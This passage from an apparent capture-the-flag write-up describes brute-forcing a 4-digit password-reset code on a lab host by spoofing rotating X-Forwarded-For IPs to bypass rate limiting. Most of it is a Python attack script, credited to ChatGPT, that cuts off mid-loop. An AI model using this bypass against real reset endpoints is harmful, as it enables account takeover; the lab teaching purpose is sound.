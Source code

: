 
And after entering the 4-digit code, we are able to reset the password.
![bc2d08baf9106bc8ed74fa906ecfd36c.png](bc2d08baf9106bc8ed74fa906ecfd36c.png){: w="400" h="300" .center}

### Rate-Limit Bypass (Intended way)
When you are brute-forcing the password, the server keeps decreasing the `Rate-Limit-Pending` header:
![a491feb7247a4e4d8f25718408220700.png](a491feb7247a4e4d8f25718408220700.png){: w="400" h="300" .center}

If you add a `X-Forwarded-For` header in your POST request, the `Rate-Limit-Pending` will be reset.
![22a448f21765eabd3fa9e3c9999590f6.png](22a448f21765eabd3fa9e3c9999590f6.png){: w="700" h="300" .center}

Each IP address that you use in your `X-Forwarded-For` header, will be valid for about 10 tries.
- So now all we have to do, is come up with a script that keeps changing the IP address in the `X-Forwarded-For` header after every 9 tries or so.

Again, we can ask **ChatGPT** for help ;)
```python
import requests
import random

# Define the URL
url = "http://hammer.thm:1337/reset_password.php"

# Function to generate a random IP address in the 127.x.x.x range
def generate_random_ip(used_ips):
    while True:
        ip = f"127.{random.randint(0, 255)}.{random.randint(0, 255)}.{random.randint(1, 255)}"
        if ip not in used_ips:
            used_ips.add(ip)
            return ip

# Set to keep track of used IPs
used_ips = set()

# Create a session object
session = requests.Session()

# Make the initial POST request with the email
initial_data = {'email': 'tester@hammer.thm'}
initial_response = session.post(url, data=initial_data)
print(f"Initial request response: {initial_response.status_code}")

# Start guessing the 4-digit code from 1111 to 9999
for i, digit in enumerate(range(1111, 10000)):
    # After every 9 requests, generate a new random IP that hasn't been used
    if i % 9 == 0:
        ip_address = generate_random_ip(used_ips)

    # Prepare the headers with the current IP
    headers = {'X-Forwarded-For': ip_address}

    # Prepare the data for the POST request
    data = {'recovery_code': str(digit), 's': '200'}

    # Retry loop for handling timeouts
    while True:
        try:
            # Make the POST request with the recovery code and custom headers
            response = session.post(url, data=data, headers=headers, timeout=10)
            print(f"Attempt {i+1}, Code: {digit}, IP: {ip_address}, Response: {response.status_code}")

```